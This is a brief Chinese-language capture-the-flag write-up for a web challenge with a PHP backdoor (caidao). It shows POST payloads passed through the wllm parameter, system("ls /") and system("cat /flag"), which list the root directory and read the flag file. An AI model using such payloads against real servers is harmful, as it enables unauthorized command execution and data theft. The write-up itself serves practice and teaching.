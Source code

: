![image-20250403171744826](./assets/image-20250403171744826.png)

提示POST执行wllm

```
wllm=system("ls /");
```

![image-20250403172033854](./assets/image-20250403172033854.png)

存在caidao.png和index.php

根目录存在flag

```
wllm=system("ls /");
```

![image-20250403172256912](./assets/image-20250403172256912.png)



```
wllm=system("cat /flag");
```

![image-20250403172341737](./assets/image-20250403172341737.png)